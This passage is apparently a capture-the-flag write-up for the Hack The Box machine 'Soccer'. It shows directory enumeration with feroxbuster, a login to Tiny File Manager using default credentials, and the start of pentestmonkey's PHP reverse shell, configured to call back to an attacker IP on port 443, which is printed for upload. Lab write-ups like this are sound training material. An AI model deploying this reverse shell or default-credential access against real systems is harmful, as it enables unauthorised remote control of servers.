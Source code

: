 Feroxbuster reveals a page we can access ```/tiny```

```console
└─$ feroxbuster -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,html,php,pdf,git -q
200      GET      147l      526w     6917c http://soccer.htb/
403      GET        7l       10w      162c http://soccer.htb/.html
200      GET      147l      526w     6917c http://soccer.htb/index.html
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
403      GET        7l       10w      162c http://soccer.htb/tiny/.html
Scanning: http://soccer.htb
Scanning: http://soccer.htb/
Scanning: http://soccer.htb/tiny
Scanning: http://soccer.htb/tiny/uploads
```

Navigating to the page presents us with a login page.

A quick lookup shows some default creds we can use

https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management

admin/admin@123

Next we are presented with an upload section. Pretty simply lets upload a php reverse shell.

I used pentest monkeys php shell.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.11';
$port = 443;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

```